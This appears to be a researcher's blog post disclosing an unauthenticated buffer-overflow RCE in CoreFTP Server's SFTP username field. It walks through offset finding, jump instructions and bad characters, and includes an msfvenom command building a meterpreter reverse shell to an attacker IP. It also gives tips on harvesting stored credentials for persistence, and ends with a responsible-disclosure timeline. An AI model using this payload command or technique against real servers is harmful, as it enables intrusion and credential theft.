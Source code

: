 ```yaml
---
layout: post
title:  "Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending"
date:   2020-08-16 01:01:00 +0100
categories: binary reverse exploitation
---
```


# Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending

Well hello there, hope everyone is doing well on this lockdown. As with many people, I start learning some new tricks and I went very old school on this one. Due to the excess time, we had to play with another thing I started looking again for old school exploits such as Buffer Overflows. Well, it didn't take long to find one.

CoreFTP comes in two versions: a client and a Server. Let us focus on the server-side. CoreFTP Server is a FTP Server (shocking) that allows IT administrators not only to serve as FTP but as SFTP with client certificates and integrate with the domain. For the sake of clarity, we tested the Core FTP build 583.

## Starting testing

As with every test we start by sending some erroneous data to every user input field possible. There were a lot of crashes in the Server Management GUI. For instance, on the self-signed server certificate fields, we could overwrite the EIP pretty easily, but the problem would be non-ASCII characters and it would be dumb since you there already have access to the management interface that supposedly operates in Administrative mode since the server needs to bind to lower ports (0-1023).


However, this just opens a door to exploit other fields. The server exposes a network port to allow clients to connect and retrieve data. I choose to go with the SFTP (Basically SSH only with file support) with SSH keys enabled. The first idea was to try to send garbage data in the Key-Exchange phase of the protocol, for instance, send an overly long encoded communication to trigger the exploit. However, the clients try to verify if the data is valid before sending. Next, I just tried the simple username with ```'A'*huge_amount``` and the server stopped responding and hanged. Hmmm..

![crashServer]({{ "images/coreftprce/image4.png" | absolute_url}})


I quickly created an environment with the service running on a Windows XP SP3 Build 2600 (because, no protections) and another on a Windows 10 machine. For the sake of clarity, my **victim machine will be at 192.168.155.132** and the **attackers machine will be at 192.168.155.176**. I quickly checked the binary and verified that it doesn't have any security extensions this means no ASLR no DEP, nothing. This means that we don't need to worry about bypassing these technologies. I follow the training in [here](https://www.fuzzysecurity.com/tutorials.html) (and I really recommend it). I attached a debugger (ImmunityDBG) to the process and generated a SSH key pair (it really doesn't matter as we are going to find out) and use it to connect to the server but with the 'A'*1024 as the username and we get the glorious EIP 41414141. Hurray! We control the EIP and have a basic entry point to try to exploit this!

![debuggerattached]({{ "images/coreftprce/image5.png" | absolute_url}})


## Exploiting it

If you read the tutorial link (and I think you should if it's the first time you reading something like this) you should know that the next step is to determine the offset to rewrite the EIP. You can either do it by trial and error or be intelligent and use something like the pattern generator tool from the Metasploit framework. Using that we can see that the EIP will be overwritten after ```198 bytes```. This means that we need to write 198 bytes before rewriting it.

![monafindoffset]({{ "images/coreftprce/image1.png" | absolute_url}})

After that find any instruction capable of jumping to our shellcode such as a ```call ESP```. We can use [mona script](https://github.com/corelan/mona) to help enumerate all the possibilities to do this. Basically, it will search for all compatible instructions in all the code and imported functions. Since the main code contains a NULL byte we can not choose it so we need to rely on imported DLLs. Since Windows XP have a lot of them without ALSR we can pick one that suits us. This means that the exploit needs to be ported for other operating systems, service packs, maybe languages... etc.

![monajumptoshellcode]({{ "images/coreftprce/image6.png" | absolute_url}})

In the previous image, we can see some of the possible ```JUMP ESP``` instructions but there are a lot more on them in a text file on your workspace:

![monajumptoshellcode2]({{ "images/coreftprce/image7.png" | absolute_url}})

Next, we should move along and perform a bad chars evaluation. This means, when we send the characters to the buffer, some of them may break the normal functioning of the exploit (due to verifications or operations on them). To do this we can use the mona script to generate an array of all possible values, from 0x00 to 0xFF or 0 to 255. Sending this buffer and analyzing the memory afterwards gets us the bad chars. Mona script can help compare the chars and the bad chars and provide a direct response on what we should exclude of the payload.

![monadetectbadchars]({{ "images/coreftprce/image8.png" | absolute_url}})


The payload can then be crafted using the Metasploit Venom and passing the bad chars (```\x00 \x01 \x02 \x0a \x0d \x40```) with the '-b' flag. We generate a small payload to get remote code execution:

```msfvenom -a x86 --platform Windows -p windows/meterpreter/revrse_tcp LHOST=192.168.155.176 LPORT=443 -b '\x00\x01\x02\x0a\x0d\x40 -f python --smallest```

 In this case, I used a meterpreter payload just because but you can choose whatever you want. I just opened a listener on Metasploit console and run the following exploit.

![exploitcode]({{ "images/coreftprce/image9.png" | absolute_url}})


Yes, I pasted an image with the code because it could trigger Antivirus Agents since it has a very rudimentary Meterpreter shell in it. The exploit uses the [paramiko SSH library](http://www.paramiko.org/) to connect to the SSH service and pass the payload as the username. Obviously, the connection will fail but at that point, we should get our shell in Metasploit. One small detail, if we use the ```CALL ESP``` the exploit will succeed and the service will continue to run as intended, at least on this case. Hurray, we got unauthenticated RCE! =). Some additional remarks are in order: Once you get RCE and can access the file system, try to access the configuration file. There you will find several hashes encrypted with AES256, some dude did a great reversing job and posted the procedure to decrypt them [here](https://coreysalzano.com/how-to/how-to-extract-passwords-from-core-ftp-le/). You can also look for certain memory locations of the decrypted hashes (I sure did but later found out this, at least I learn something in the process). Then you can use that credential hopefully to maintain access. The application needs to run on Administrator mode so you just got at least Local Administrative on a machine, congratz!

![exploitcode]({{ "images/coreftprce/image10.png" | absolute_url}})

There are also other versions vulnerable to this but after version 2.1 of the CoreFTP Server, the buffer started converting to UTF-8 and we need to perform [Venetian method](https://img2.helpnetsecurity.com/dl/articles/unicodebo.pdf) to exploit it. I was not successful in doing that so the last that we are able to achieve is Denial of Service (DoS). To do this we just send garbage to the buffer and crash the service. Meh, not that good but could be helpful in some situations. Maybe someone that knows more than what I do can help and exploit this.

There is the problem of portability of the exploit. I did this on a Windows XP SP3 machine (except the detection of security extensions, that I did on the Windows 10 Machine) so I won't be bothered with ASLR and DEP modes. Since the code of the program holds bad chars, such as the NULL byte (0x00) we can't use it to steal an instruction to jump to our shellcode, otherwise, the exploit would work on all OSs. Therefore we needed to use some of the imported DLLs present to reuse the instruction and to jump to our shellcode. One interesting thing to work on is to try to craft something that would bypass the authentication, jump the verification of the password and give access to files. Don't know if it is possible but I wonder. Also, this exploit **only works if the SSH key is enabled**. You don't need a user registered with it but the server should accept it. Basically, the problem relies on the strongest configuration (using SSH keys to authenticate users) even if there is none configured.

## Disclosure

This vulnerability follows the responsible disclosure standard. At first, the vendor did not reply but after insisting I got trough to someone who could patch this. After investigation, he provided the patch to clients and after the patch is available for one month, I released this disclosure. I like to thank them for providing support for fixing this vulnerability. As a footnote, I am still wating for the CVE ID from Mitre, when that's available, I'll update this page.

## Timeline

* 01/05/2020 - Vulnerability discovery
* 02/06/2020 - First contact with vendor
* 21/06/2020 - Second contact with vendor
* 26/06/2020 - Vulnerability fix tested, patch confirmed
* 27/07/2020 - Official date of release
* 16/08/2020 - Real date of release
